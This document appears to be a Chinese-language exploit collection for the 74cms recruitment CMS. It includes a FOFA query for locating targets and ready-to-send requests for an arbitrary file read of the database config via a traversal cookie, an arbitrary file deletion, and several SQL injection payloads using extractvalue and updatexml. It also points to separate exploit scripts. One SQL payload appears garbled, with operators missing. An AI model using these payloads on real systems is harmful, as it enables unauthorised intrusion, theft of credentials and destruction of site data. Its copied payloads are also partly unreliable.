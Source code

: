 # FOFA语法：app="74cms"



# 74cms v4.2.126-任意文件读取漏洞

```
url: http://74cms.test/index.php?m=Home&c=Members&a=register

post: 
reg_type=2&utype=2&org=bind&ucenter=bind
cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php;members_bind_info[type]=qq;members_uc_info[password]=123456;members_uc_info[uid]=1;members_uc_info[username]=tttttt;
headers:
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

综合利用脚本见**74cms_file_read.php**



# 74cms v4.2.3 任意文件删除

``` 
GET /index.php?m=admin&c=database&a=del&name=/../../../../../ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/index.php?m=admin&c=database&a=restore
Connection: close
Cookie: think_template=default; PHPSESSID=6d86a34ec9125b2d08ebbb7630838682; think_language=en
Upgrade-Insecure-Requests: 1
```

poc为`?m=admin&c=database&a=del&name=/../../../../../`



# **74cms v4.2.3** **备份文件爆破**

利用脚本见**74cms_bak_instruct.py**



# **74cms v4.2.126-**通杀**sql**注入

Payload:

`http://xx.xx/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a`



# **74cms v5.0.1** **前台sql**注入

### **具体信息**

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### **Payload:**

`http://xx.xx/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a`

